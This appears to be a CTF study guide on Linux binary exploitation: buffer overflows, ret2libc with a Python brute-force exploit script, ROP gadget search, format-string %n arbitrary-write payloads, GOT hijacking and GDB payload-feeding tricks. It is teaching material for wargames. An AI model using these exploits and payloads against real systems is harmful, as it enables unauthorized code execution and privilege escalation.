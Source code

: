 *********************************
CTF Series :  Binary Exploitation
*********************************

This post (Work in Progress) lists the tips and tricks while doing Binary Exploitation challenges during various CTF's and Over The Wire Wargame.

**Thanks to superkojiman, barrebas, et0x who helped me learning the concepts.**

Basics
======

Let's start with some basic concepts and then we would see some examples which would help to clear the concepts.

* Big-endian systems store the most significant byte of a word in the smallest address and the least significant byte is stored in the largest address. Little-endian systems, in contrast, store the least significant byte in the smallest address. {% img left /images/big-endian.png 250 250 %} {% img right /images/little-endian.png 250 250 %}

Initial Checks?
---------------
When you get a binary for exploitation, we need to find whether it is 32-bit or 64-bit ELF, which platform it is running, whether any buffer overflow prevention techniques has been used, what is EIP offset.

Binary Architecture
^^^^^^^^^^^^^^^^^^^
Executable binary is running on whether x86 or x86-64.

::

  uname -a

Whether the binary is compiled for 32 bit or 64 bit.

::

  file binary_file

Binary Help?
^^^^^^^^^^^^

Probably a good idea to just run the binary with -h or --help flag to check if any help documentation is provided.

::

 $ ./flagXX -h
 Usage: php [options] [-f] <file> [--] [args...]
       php [options] -r <code> [--] [args...]


Binary Protection
^^^^^^^^^^^^^^^^^

Multiple Buffer overflow prevention techniques such as RELRO, NoExecute (NX), Stack Canaries, Address Space Layout Randomization (ASLR) and Position Independent Executables (PIE).

::

    Address space Layout Randomization     : Kernel
    Executable Stack Protection            : Compiler
    Stack smashing protection              : Compiler
    Position Independent Executables       : Compiler
    Fortify Source                         : Compiler
    Stack Protector                        : Compiler

* Which buffer overflow prevention techniques are used can be found by running Checksec Script. This script is present in gdb-peda.

* Whether the stack of binary is executable is not can be found by readelf tool. If Program header GNU\_STACK has RWE flag, if it has E flag, it's executable.

 ::

    narnia8@melinda:~$ readelf -l /narnia/narnia8 | grep GNU_STACK
    GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RWE 0x10

 In order to make the stack executable, the program needs to be compiled with -z execstack option and to disable stack smashing option -fno-stack-protector should be used.

 ::

    gcc -ggdb -m32 -fno-stack-protector -z execstack -o buffer1 buffer1.c


* Address Space Layout Randomization (ASLR) controlled by /proc/sys/kernel/randomize\_va\_space.

 ::

    Three Values:
    0  : Disable ASLR. This setting is applied if the kernel is booted with the norandmaps boot parameter.
    1  : Randomize the positions of the stack, virtual dynamic shared object (VDSO) page, and shared memory regions. The base address of the data segment is located immediately after the end of the executable code segment.
    2  : Randomize the positions of the stack, VDSO page, shared memory regions, and the data segment. This is the default setting.

 You can change the setting temporarily by writing a new value to /proc/sys/kernel/randomize\_va\_space, for example:

 ::

    echo value > /proc/sys/kernel/randomize_va_space

 To change the value permanently, add the setting to /etc/sysctl.conf, for example:

 ::

    kernel.randomize_va_space = value
    and run the sysctl -p command.

 If you change the value of randomize_va_space, you should test your application stack to ensure that it is compatible with the new setting. If necessary, you can disable ASLR for a specific program and its child processes by using the following command:

 ::

    % setarch `uname -m` -R program [args ...]

**PIE Enabled**

If a binary is PIE enabled, we won't be able to get the addresses until we run it. So, one of the way is to disable ASLR on linux, that way addresses are always the same during analysis.

* Use the start command in gdb to load the binary and break at _start
* then use vmmap (if using pwndbg) to see memory layout. If you want the starting address of binary

 ::

  pwndbg> vmmap
  LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
  0x555555554000     0x555555556000 r-xp     2000 0      /root/work/lucky/lucky
  0x555555756000     0x555555757000 r-xp     1000 2000   /root/work/lucky/lucky
  0x555555757000     0x555555758000 rwxp     1000 3000   /root/work/lucky/lucky

* So starting address is 0x555555554000; from here we can set breakpoints by adding the offset in IDA.
* You can see the offsets in IDA if you go to Options > General and check Line Prefixes
* Now you can set a breakpoint. Eg if strcpy() is offset 0x123, then you can do

 ::

  br *0x555555554000+0x123

EIP Offsets?
^^^^^^^^^^^^

To know the EIP offset, you can use cyclic patterns. Use pattern_create.rb to create a random pattern which can be used to find the offset and pattern\_offset.rb to find the exact offset.

::

   /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 200
   Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

   /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x37654136
   [*] Exact match at offset 140



Buffer overflow
===============

Executable Stack
----------------

Either you can put the shellcode on the buffer and then redirect the EIP to NOP Sled followed by the shellcode (provided the shellcode used is correct and the stack is executable).

Non-executable stack, ASLR Disabled
-----------------------------------

However, if the stack is not executable or the shellcode is not working (happens sometimes), then we can either,

Export a environment variable
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

* Export a environment variable with shellcode.
* Find the address of env variable in the stack. Utilize getenvaddr.c to get the address of the environment variable

 .. code-block:: c

  ---getenvaddr.c---

  #include <stdio.h>
  #include <stdlib.h>
  #include <string.h>

  int main(int argc, char *argv[]) {
	 char *ptr;

	 if (argc < 3) {
	 	printf("Usage: %s <environment var> <target program name>\n", argv[0]);
	 	exit(0);
	 } else {
		 ptr = getenv(argv[1]); /* Get environment variable location */
		 ptr += (strlen(argv[0]) - strlen(argv[2])) * 2; /* Adjust for program name */
		 printf("%s will be at %p\n", argv[1], ptr);
 	 }
   }


* Set the return address to starting of the shellcode
* Get a shell

Return2libc
^^^^^^^^^^^

Use return2libc which is a type of ROP

* Find the address of system function (Run "gdb -q ./program"; break main; p system)

  ::

   gdb -q ./retlib
   (no debugging symbols found)...(gdb)
   (gdb) b main
   Breakpoint 1 at 0x804859e
   (gdb) r
   Starting program: /home/c0ntex/retlib
   (no debugging symbols found)...(no debugging symbols found)...
   Breakpoint 1, 0x0804859e in main ()
   (gdb) p system
   $1 = {<text variable, no debug info>} 0x28085260 <system> 

* Find the address of "/bin/sh" in the stack or export it in the environment variable and execute it like system("/bin/sh"). It is in the format of

 ::

   <ADDRofSYSTEM> <4ArbitraryBytes for Return Address> <argument for system[/bin/sh]>

  4Arbitrary Bytes for Return address could be a JUNK address or "\xCC\xCC\xCC\xCC" or address of exit function.

 The above pattern is because, when a function is called a stack frame is formed and the parameters for it are pushed onto the stack, followed by the return address(EIP) of your previous function along with your Stack Pointers(ebp, esp). with you Stack Pointer being on top of the frame.

 ::

  Top of stack              lower memory address
 
  Buffer
  ....
  Saved Frame Pointer (EBP)
  Saved Return address (EIP)
  Function() arguments
  Function() arguements
 
  Bottom of stack          higher memory address

If Return Address set to

* \\xCC\\xCC\\xCC\\xCC so after system executes, it tries to return to 0xcccccccc. \\xcc is good just to check if you're actually jumping to your shellcode, but once you've verified that it works, then you should remove it. ret expects an address. not a payload, \xCC\xCC\xCC\xCC should be present as a payload.
* If a JUNK address is put, the binary will have already executed the shellcode but it will segfault.
* If the proper address of exit() is used, binary will exit cleanly.

It's better to use /bin/sh instead of /bin/bash since bash drops privs. If /bin/bash is used, it will launch /bin/bash but you'll find that you haven't elevated your privileges and this can get confusing. so either find another string that points to /bin/sh or set your own env variable like DASH=/bin/sh and reference that. Good paper to review is `Bypassing non-executable-stack during Exploitation (return-to-libc) <https://css.csail.mit.edu/6.858/2017/readings/return-to-libc.pdf>`_ and `Performing a ret2libc Attack <http://shellblade.net/docs/ret2libc.pdf>`_


* Sometimes you need to put a cat to keep the shell alive

 ::

    (cat input; cat) | ./binary input is the payload you are sending.

Return-Oriented Programming
^^^^^^^^^^^^^^^^^^^^^^^^^^^

Msfelfscan can be used to locate interesting addresses within executable and linkable format (ELF) programs, which may prove useful in developing exploits.

::

 /usr/share/framework2/msfelfscan -f stack7
  Usage: /usr/share/framework2/msfelfscan <input> <mode> <options>
 Inputs:
         -f  <file>    Read in ELF file
 Modes:
         -j  <reg>     Search for jump equivalent instructions
         -s            Search for pop+pop+ret combinations
         -x  <regex>   Search for regex match
         -a  <address> Show code at specified virtual address
 Options:
         -A  <count>   Number of bytes to show after match
         -B  <count>   Number of bytes to show before match
         -I  address   Specify an alternate base load address
         -n            Print disassembly of matched data

We can use msfelfscan to get pop-pop-retun, choose that address and use

::

 pop-pop-ret-addr | 8 bytes junk | address to execute |

 where address-to-execute is the address of the environment variable where shellcode is stored.


Non-Executable Stack, ASLR Enabled
----------------------------------

If the aslr is enabled, the address for the libc would change everytime, the binary is executed.

::

 for i in `seq 1 5`; do ldd ovrflw | grep libc; done
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb762f000)
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb758f000)
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb75ae000)

However, if we notice the libc address in not changing much, first three characters and last three characters remain the same. Because, the machine we are doing would be probably a CTF machine, so we can brute-force the possible libc address. It is suggested to figure out the offset of system, exit and string "/bin/sh" from the libc base address. Remember,

::

 <ADDRofSYSTEM> <4ArbitraryBytes for Return Address> <argument for system[/bin/sh]>

Find the offset of system, exit and /bin/sh
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

System

::

 readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system
   246: 00113d70    68 FUNC    GLOBAL DEFAULT   13 svcerr_systemerr@@GLIBC_2.0
   628: 0003ab40    55 FUNC    GLOBAL DEFAULT   13 __libc_system@@GLIBC_PRIVATE
  1461: 0003ab40    55 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.0

Exit function

::

 readelf -s /lib/i386-linux-gnu/libc.so.6 | grep exit
   112: 0002ec00    39 FUNC    GLOBAL DEFAULT   13 __cxa_at_quick_exit@@GLIBC_2.10
   141: 0002e7f0    33 FUNC    GLOBAL DEFAULT   13 exit@@GLIBC_2.0
   451: 0002ec30   181 FUNC    GLOBAL DEFAULT   13 __cxa_thread_atexit_impl@@GLIBC_2.18
   559: 000b1645    24 FUNC    GLOBAL DEFAULT   13 _exit@@GLIBC_2.0
   617: 00116de0    56 FUNC    GLOBAL DEFAULT   13 svc_exit@@GLIBC_2.0
   652: 00120b60    33 FUNC    GLOBAL DEFAULT   13 quick_exit@GLIBC_2.10
   654: 0002ebd0    33 FUNC    GLOBAL DEFAULT   13 quick_exit@@GLIBC_2.24
   878: 0002ea20    85 FUNC    GLOBAL DEFAULT   13 __cxa_atexit@@GLIBC_2.1.3
  1048: 00120b20    52 FUNC    GLOBAL DEFAULT   13 atexit@GLIBC_2.0
  1398: 001b3204     4 OBJECT  GLOBAL DEFAULT   33 argp_err_exit_status@@GLIBC_2.1
  1510: 000f4130    58 FUNC    GLOBAL DEFAULT   13 pthread_exit@@GLIBC_2.0
  2112: 001b3150     4 OBJECT  GLOBAL DEFAULT   33 obstack_exit_failure@@GLIBC_2.0
  2267: 0002e820    78 FUNC    WEAK   DEFAULT   13 on_exit@@GLIBC_2.0
  2410: 000f54f0     2 FUNC    GLOBAL DEFAULT   13 __cyg_profile_func_exit@@GLIBC_2.2

String /bin/sh

::

 strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh
 15cdc8 /bin/sh

Now, we know the offset of the system, exit and /bin/sh

::

  1461: 0003ab40    55 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.0
   141: 0002e7f0    33 FUNC    GLOBAL DEFAULT   13 exit@@GLIBC_2.0
 15cdc8 /bin/sh

Creation of exploit
^^^^^^^^^^^^^^^^^^^

Now, when we have the offset, let's take a sample libc address and create the exploit

::

 from subprocess import call
 import struct

 #---Offsets of System, Exit and /bin/sh
 libc_base_addr = 0xb75e6000
 system_offset  = 0x0003ab40
 exit_offset    = 0x0002e7f0
 binsh_offset   = 0x0015cdc8

 #---Calculation of System, Exit, binsh addr
 system_addr = struct.pack("<I",libc_base_addr + system_offset)
 exit_addr   = struct.pack("<I",libc_base_addr + exit_offset)
 binsh_addr  = struct.pack("<I",libc_base_addr + binsh_offset)

 #---Creating the payload
 buf = "A" * 112
 buf += system_addr
 buf += exit_addr
 buf += binsh_addr


Calling the targetted binary multiple times
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

::

 #---Execution of the binary multiple times
 i = 0;
 while(i<512):
   print "Try :%s" %i
   i = i+1
   ret = call(["/usr/local/bin/ovrflw",buf])

* Sometimes we need a shellcode to write a string or for getting a actual shell. A good reference can be found `Introduction to Writing Shellcode <https://www.exploit-db.com/raw/13224/>`_ Information about various system call integar value need to be present in EAX register is `Linux System Call Table <https://syscalls.kernelgrok.com/>`_ 

 Let's see a small example where we move an address to eax register and jump to it. Address which we are moving to eax would contain our shellcode.

 ::

   ;test.asm
   [SECTION .text]
   global _start
   _start:
           mov eax, 0xffffd8bc
         jmp eax

 Just good to know: global directive is NASM specific. It is for exporting symbols in your code to where it points in the object code generated. Here you mark \_start symbol global so its name is added in the object code (a.o). The linker (ld) can read that symbol in the object code and its value so it knows where to mark as an entry point in the output executable. When you run the executable it starts at where marked as \_start in the code.

 If a global directive missing for a symbol that symbol will not be placed in the object code's export table so linker has no way of knowing about the symbol. We can compile the asm file by
 ::

   nasm -f elf test.asm

 link it

 ::

   ld -o test test.o

 If you get the below error
 ::

   ld: i386 architecture of input file `test.o' is incompatible with i386:x86-64 output

 either 

 Use 64 bits instead of 32 for your loader and compile it with the following command:
 ::

   nasm -f elf64 loader.asm -o loader.o

 or 

 If want compile the file as 32 bits composition, you can use:

 ::

   ld -m elf_i386 -s -o file.o file

 To see the byte code 
 ::

   objdump -d <file>


* What we mostly do when exploiting a buffer overflow (when placing the shellcode on stack) is we place our shellcode before EIP, we should also check if we can put our shellcode after EIP. This is particularly useful when some kind of check for shellcode is present in address before EIP. Example: Suppose our EIP is present at offset 80. We would usually do

 ::

   python -c 'print "\x90"*50 + "30 Bytes of ShellCode" + "4 Bytes return address to NOP or shellcode in left"'

 However, if somekind of check for alphanumeric characters is present for first 80 bytes you won't be able to put your shellcode in those 80 bytes. At that point of time you should check if you can overflow post EIP and redirect. For example

 ::

    python -c 'print "A"*80 + "4 Bytes return address to NOP or shellcode in right" + "\x90"*50 + "30 Bytes of ShellCode"'


Format String Vulnerability
===========================

Definition
----------

If an attacker is able to provide the format string to an ANSI C format function in part or as a whole, a format string vulnerability is present. By doing so, the behaviour of the format function is changed, and the attacker may get control over the target application. A format string is an ASCIIZ string that contains text and format parameters. Example:

::

  printf ("The magic number is: %d\n", 1911);

Behaviour of the format function
--------------------------------

The behaviour of the format function is controlled by the format string. The function retrieves the parameters requested by the format string from the stack.

::

  printf ("Number %d has no address, number %d has: %08x\n", i, a, &a);

From within the printf function the stack looks like:

::

   stack top 
   . . . 
   <&a> 
   <a> 
   <i>
    A 
   . . .
   stack bottom

Crashing the Program
--------------------

By utilizing format strings we can easily trigger some invalid pointer access by just supplying a format string like:

::

  printf ("%s%s%s%s%s%s%s%s%s%s%s%s");

Because ‘%s’ displays memory from an address that is supplied on the stack, where a lot of other data is stored, too, our chances are high to read from an illegal address, which is not mapped.


Viewing the stack
-----------------

How some parts of the stack memory by using a format string like this:

::

  printf ("%08x.%08x.%08x.%08x.%08x\n");

This works, because we instruct the printf-function to retrieve five parameters from the stack and display them as 8-digit padded hexadecimal numbers. So a possible output may look like:

::

  40012980.080628c4.bffff7a4.00000005.08059c04

This is a partial dump of the stack memory, starting from the current bottom upward to the top of the stack — assuming the stack grows towards the low addresses.


Viewing Memory at any location
------------------------------

We can look at memory locations different from the stack memory by providing an address to the format string.

Our format string is usually located on the stack itself, so we already have near to full control over the space, where the format string lies. The format function internally maintains a pointer to the stack location of the current format parameter. If we would be able to get this pointer pointing into a memory space we can control, we can supply an address to the ‘%s’ parameter. To modify the stack pointer we can simply use dummy parameters that will ‘dig’ up the stack by printing junk:

::

  printf ("AAA0AAA1_%08x.%08x.%08x.%08x.%08x");

The ‘%08x’ parameters increase the internal stack pointer of the format function towards the top of the stack. After more or less of this increasing parameters the stack pointer points into our memory: the format string itself. The format function always maintains the lowest stack frame, so if our buffer lies on the stack at all, it lies above the current stack pointer for sure. If we choose the number of ‘%08x’ parameters correctly, we could just display memory from an arbitrary address, by appending ‘%s’ to our string. In our case the address is illegal and would be ‘AAA0’. Lets replace it with a real one. Example:

::

  address = 0x08480110
  address (encoded as 32 bit le string): "\x10\x01\x48\x08"
  printf ("\x10\x01\x48\x08_%08x.%08x.%08x.%08x.%08x|%s|");

Will dump memory from 0x08480110 until a NUL byte is reached. If we cannot reach the exact format string boundary by using 4-Byte pops (‘%08x’), we have to pad the format string, by prepending one, two or three junk characters. 3 This is analog to the alignment in buffer overflow exploits.


Overwriting of Arbitrary Memory
-------------------------------

There is the ‘%n’ parameter, which writes the number of bytes already printed, into a variable of our choice. The address of the variable is given to the format function by placing an integer pointer as parameter onto the stack. But if we supply a correct mapped and writeable address this works and we overwrite four bytes (sizeof (int)) at the address: 

::

  "\xc0\xc8\xff\xbf_%08x.%08x.%08x.%08x.%08x.%n"

The format string above will overwrite four bytes at 0xbfffc8c0 with a small integer number. We have reached one of our goals: we can write to arbitrary addresses. By using a dummy parameter ‘%nu’ we are able to control the counter written by ‘%n’, at least a bit.

Direct Parameter Access
^^^^^^^^^^^^^^^^^^^^^^^

The direct parameter access is controlled by the ‘$' qualifier

::
 
  printf ("%6`\ d:raw-latex:`\n`", 6, 5, 4,3, 2, 1);

Prints ‘1’, because the ‘6$’ explicitly addresses the 6th parameter on the stack.

The above text is taken from and a good paper to read for format string is `Exploiting Format String Vulnerabilities`_

 .. _Exploiting Format String Vulnerabilities: http://www.cis.syr.edu/~wedu/seed/Labs/Vulnerability/Format_String/files/formatstring-1.2.pdf

Write two bytes
^^^^^^^^^^^^^^^
We can write two bytes by %hn and one byte by %hhn.

Write four bytes
^^^^^^^^^^^^^^^^

How to write four bytes? Suppose we need to write 0x8048706 to the address 0xffffd64c.

::

  HOB:0x0804 LOB:0x8706

  If HOB < LOB

  [addr+2][addr] = \x4e\xd\xff\xff\x4c\xd\xff\xff
  %.[HOB - 8]x = 0x804 - 8 = 7FC (2044) = %.2044x
  %[offset]$hn = %6\$hn 
  %.[LOB - HOB]x = 0x8706 - 0x804 = 7F02 (32514) = %.32514x 
  %[offset+1]`\ hn = %7$hn

  python -c 'print "\x4e\xd6\xff\xff\x4c\xd6\xff\xff" +"%.2044x%6\$hn %.32514x%7\$hn"'

Shared Library
==============

A library whose code segment can be shared among multiple processes and whose data segment is unique to each process is called a Shared Library, thereby saving huge amount of RAM and disk space.
Shared library is also referred using other names like dynamic library, shared object files, DSO and DLL(Windows).


Hijack the Global Offset Table with pointers
--------------------------------------------

**Definition** 

The Global Offset Table redirects position independent address calculations to an absolute location and is located in the .got section of an ELF executable or shared object. It stores the final (absolute) location of a function calls symbol, used in dynamically linked code. When a program requests to use printf() for instance, after the rtld locates the symbol, the location is then relocated in the GOT and allows for the executable via the Procedure Linkage Table, to directly access the symbols location.

When you disassemble main and printf statement is present, you will get like        

::

    0x080484b9 <+60>: call 0x8048330 printf@plt <----PLT

if you further disassemble printf

::
   
    gdb-peda$ pdisass printf 
    Dump of assembler code for function printf@plt:
        0x08048330 <+0>: jmp DWORD PTR ds:0x8049788 <----GOT Address 
        0x08048336 <+6>: push 0x0 
        0x0804833b <+11>: jmp 0x8048320 End of assembler dump.

Further disassembling the address 0x8049788
  
::

   gdb-peda$ pdisass 0x8049788
   Dump of assembler code from 0x8049788 to 0x80497a8:
     0x08049788 <printf@got.plt+0>:   add    DWORD PTR ss:[eax+ecx*1],0x46
     0x0804978d <fgets@got.plt+1>:    add    DWORD PTR [eax+ecx*1],0x56
     0x08049791 <puts@got.plt+1>: add    DWORD PTR [eax+ecx*1],0x66
     0x08049795 <__gmon_start__@got.plt+1>:   add    DWORD PTR [eax+ecx*1],0x76
     0x08049799 <__libc_start_main@got.plt+1>:    add    DWORD PTR [eax+ecx*1],0x0
     0x0804979d <data_start+1>:   add    BYTE PTR [eax],al
     0x0804979f <data_start+3>:   add    BYTE PTR [eax],al
     0x080497a1 <__dso_handle+1>: add    BYTE PTR [eax],al
     0x080497a3 <__dso_handle+3>: add    BYTE PTR [eax],al
     0x080497a5 <stdin@@GLIBC_2.0+1>: add    BYTE PTR [eax],al
     0x080497a7 <stdin@@GLIBC_2.0+3>: add    BYTE PTR [eax],al
   End of assembler dump. 

Objdump reflects the same (notice the +1) GOT address:

::
    
    objdump --dynamic-reloc ./behemoth3 

    ./behemoth3:     file format elf32-i386

    DYNAMIC RELOCATION RECORDS
    OFFSET   TYPE              VALUE 
    08049778 R_386_GLOB_DAT    __gmon_start__
    080497a4 R_386_COPY        stdin
    08049788 R_386_JUMP_SLOT   printf
    0804978c R_386_JUMP_SLOT   fgets
    08049790 R_386_JUMP_SLOT   puts
    08049794 R_386_JUMP_SLOT   __gmon_start__
    08049798 R_386_JUMP_SLOT   __libc_start_main


Quick diagram what it looks like:

So a quick diagram of what happens looks kind'a like this:

::

   [printf()] <--------------------------------
      |                                       |
      --------------> [PLT]--->[d_r_resolve]--|
                        |           |         |
                        -------------------->[GOT]<--
                                    |               |
                                     ------->[libc]--


A good paper to read about and from where the definition and diagram is taken is `How to Hijack the Global Offset Table with pointers <https://www.exploit-db.com/raw/13203/>`_

Tips and Tricks
===============

* Probably, sometimes, we have to use `Socket re-use shellcode <https://www.exploit-db.com/exploits/34060/>`_ 
* To attach to a network process in gdb, you might have to use

 ::

  gdb-peda$ set follow-fork-mode child

* If the parent is killed, children become children of the init process (that has the process id 1 and is launched as the first user process by the kernel). The init process checks periodically for new children, and kills them if they have exited (thus freeing resources that are allocated by their return value).

Appendix-I GDB Basics
=====================

Getting inputs
--------------

Taken from `Managing inputs for payload injection? <https://reverseengineering.stackexchange.com/questions/13928/managing-inputs-for-payload-injection>`_

Getting inputs from char \*argv[]
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
We can read the arguments from the initial command line

::
 
 $> ./program $(python -c 'print("\xef\xbe\xad\xde")')

In gdb, we can pass the arguments through the run command line:

::

 (gdb) run $(python -c 'print("\xef\xbe\xad\xde")')

Getting inputs from a file
^^^^^^^^^^^^^^^^^^^^^^^^^^

We can also provide input from file

::

 $> ./program ./myfile.txt

And, within gdb

::

 (gdb) run myfile.txt

Then, outside of gdb you can rewrite the content of the file and run your program again and again in gdb.

Getting inputs from stdin
^^^^^^^^^^^^^^^^^^^^^^^^^
Getting the input through stdin can be achieve through a wide variety of functions such as fgets(), scanf(), getline(), read() and others. It raises a few problems because the program stop while executing and wait to be fed with characters.

In case you have to deal with several inputs (eg login, password, ...), you need to use separators between the inputs. Usually the separator between each input is just a newline character (\n or \r depending on the system you are in).

Now, you have two ways of doing to feed the stdin. Either we pass the file

::

 $> cat ./mycommands.txt | ./program
 
The stdin requires to run the command either through a file

::

 (gdb) run < ./mycommands.txt

And do as said in the previous case.

The other option is to pipe the output of a command to the stdin of the program

::

 $> python -c 'print("\xef\xbe\xad\xde")' | ./program

In gdb we can use the bash process substitution <(cmd) trick:

::

 (gdb) run < <(python -c 'print("\xef\xbe\xad\xde")')

This way is much quicker than effectively creating a named pipe and branch your program on it. Creating the named pipe outside of gdb requires a lot of unnecessary steps where you have it instantly with the previous technique.

Note also that, some people are using <<$(cmd) like this:

::

 (gdb) run <<< $(python -c 'print("\xef\xbe\xad\xde")')

But, this last technique seems to filter out all NULL bytes (for whatever reason), so you should prefer the first one (especially if you want to pass NULL bytes).

Getting inputs from network
^^^^^^^^^^^^^^^^^^^^^^^^^^^

We can use netcat nc. Basically, if your vulnerable program is listening on localhost:666 then the command line would be:

::

 $> python -c 'print("\xef\xbe\xad\xde")' | nc -vv localhost 666

Within gdb, the point will be to run (r) the program and to connect to it from another terminal.

Keep the stdin open after injection
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
Most of the techniques for stdin will send the exploit string to the program which will end shortly after the termination of the input. This mainly happens in gets buffer overflow, so, the stdin should be closed and reopened. The best way to keep it open afterward and get an active shell is to add a cat waiting for input on its stdin. It should look like this if you go though a file:

::

 $> (cat ./mycommands.txt; cat) | ./program

Or, if you want a shell command:

::

 $> (python -c 'print("\xef\xbe\xad\xde")'; cat) | ./program

Or, finally, if you are going through the network:

::

 $> (python -c 'print("\xef\xbe\xad\xde")'; cat) | nc -vv localhost 666

Examining Data
--------------

Examining functions
^^^^^^^^^^^^^^^^^^^

info functions command : Dislays the list of functions in the debugged program

::

 gdb-peda$ info functions 
 All defined functions:

 Non-debugging symbols:
 0x00000000000005a0  _init
 0x00000000000005d0  setresgid@plt
 0x00000000000005e0  system@plt
 0x00000000000005f0  printf@plt
 0x0000000000000600  getegid@plt
 0x0000000000000620  _start
 0x0000000000000650  deregister_tm_clones
 0x0000000000000690  register_tm_clones
 0x00000000000006e0  __do_global_dtors_aux
 0x0000000000000720  frame_dummy
 0x000000000000072a  vuln
 0x0000000000000765  main
 0x00000000000007c0  __libc_csu_init
 0x0000000000000830  __libc_csu_fini
 0x0000000000000834  _fini

Run it before running the program, otherwise all linked functions would also be shown.

**Disassembling Functions**

GDB

::
 
 disassemble main


GDB-Peda

::

 pdisass main

Examining Memory
^^^^^^^^^^^^^^^^
We can use the command x (for "examine") to examine memory in any of several formats, independently of your program's data types.

::

 x/nfu addr
 x addr
 x
 
Use the x command to examine memory.

n, f, and u are all optional parameters that specify how much memory to display and how to format it; addr is an expression giving the address where you want to start displaying memory.

* n, the repeat count : The repeat count is a decimal integer; the default is 1. It specifies how much memory (counting by units u) to display.
* f, the display format : The display format is one of the formats used by print, 's' (null-terminated string), or 'i' (machine instruction). The default is 'x' (hexadecimal) initially. The default changes each time you use either x or print.
* u, the unit size : The unit size is any of

 * b Bytes.
 * h Halfwords (two bytes).
